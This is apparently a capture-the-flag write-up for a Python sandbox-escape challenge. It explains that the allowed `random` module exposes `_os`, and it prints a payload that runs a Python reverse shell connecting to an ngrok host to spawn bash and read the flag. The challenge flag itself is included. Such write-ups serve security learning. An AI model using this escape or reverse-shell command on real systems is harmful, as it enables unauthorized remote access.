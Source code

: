 # Solution to CodeCage Challenge
**Category**: Web Exploitation  
**Flag**: `VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}`

## Description

This is a place for you to test your coding skills and explore interesting things in a safe environment. Don't forget to solve the CAPTCHA to get started, and remember that all your actions must comply with security principles.

## Code
```python
ALLOWED_MODULES = {
    'abc',
    'aifc',
    'argparse',
    'array',
    'ast',
    'audioop',
    'base64',
    'calendar',
    'cmath',
    'code',
    'codecs',
    'copy',
    ...
}
```
## Solution

### 1. Analyzing the `random` Module
Upon inspecting the `random` module, it becomes evident that it has a linkage to the `_os` module. This association presents an opportunity to exploit and execute Remote Code Execution (RCE) within the sandbox environment.

![Sandbox Escape](../image/image.png)

---

### 2. Exploiting with Reverse Shells
We use reverse shells (`revshells`) to exploit the vulnerability and gain access to the `flag.txt` file.

![RCE](../image/image-2.png)

---

### 3.Payload

```python
import random
print(random._os.system("""export RHOST="0.tcp.ap.ngrok.io";export RPORT=19396;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'"""))
```
---

### Key Insight
This challenge can also be solved by directly reading the `flag.txt` file. The primary reason is that the author made a custom implementation error. 😅
